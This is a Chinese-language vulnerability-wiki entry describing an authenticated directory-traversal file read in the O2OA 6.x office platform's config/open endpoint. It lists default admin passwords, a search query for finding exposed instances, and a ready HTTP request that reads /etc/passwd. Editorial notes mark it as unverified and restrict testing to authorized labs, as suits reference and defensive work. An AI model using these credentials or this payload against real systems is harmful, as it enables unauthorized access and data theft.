



# O2OA config/open目录遍历任意文件读取

## 条目说明

- 对象与具体问题：O2OA；config/open目录遍历任意文件读取
- 版本、配置及部署条件：影响6.x、测试6.2.0
- 认证与权限前提：xadmin后台authorization
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 路径遍历请求与描述一致；缺成功/失败响应文本，证据仅截图
- 固定Content-Length错误；配置管理权限与越界目录安全边界未阐明

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

O2OA 是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动 OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA 系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

### 漏洞影响

```
O2OA 6.x
```

### 网络测绘

```
title=="O2OA"
```

### 环境搭建

在 [官网下载](https://www.o2oa.net/download.html) 一个 6.2.0 版本，本地搭建测试：

```
unzip o2server-6.2.0-linux-x64.zip 
cd o2server
./start_linux.sh
```




### 漏洞复现

默认密码登录后台 `xadmin/o2`（或 `xadmin/o2oa@2022`）。

发送数据包：

```http
POST /x_program_center/jaxrs/config/open?v=6.3 HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://10.0.12.15
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA
Content-Length: 1048

{"fileName":"../../../etc/passwd"}
```

> 请求长度说明：原资料 Content-Length 为 1048；保留原始标头；其数值未据实际请求体重新计算或验证。




文件不存在时，响应包：




### 漏洞修复

建议升级 O2OA 最新版本： https://www.o2oa.net/download.html


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
